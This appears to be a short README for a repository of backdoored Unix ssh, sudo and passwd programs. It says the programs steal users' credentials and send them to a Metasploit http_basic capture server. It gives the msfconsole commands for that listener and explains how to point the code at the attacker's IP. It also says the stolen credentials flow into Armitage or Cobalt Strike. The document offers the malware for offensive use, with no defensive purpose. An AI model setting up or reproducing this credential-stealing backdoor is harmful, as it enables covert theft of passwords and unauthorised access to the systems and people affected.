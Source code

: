 Nix Backdoors
=============
ssh, sudo, and passwd

Steals creds and sends them to the http_basic server in metasploit:
<b>
msf > use auxiliary/server/capture/http_basic
msf auxiliary(http_basic) > set URIPATH /
msf auxiliary(http_basic) > run
</b>

Make sure to replace metasploit.http.serv.ip in the code with the ip that the server is running on
Creds will automatically be imported into the cred database of an Armitage or Cobalt Strike server
passwd is by far the most complex and effective
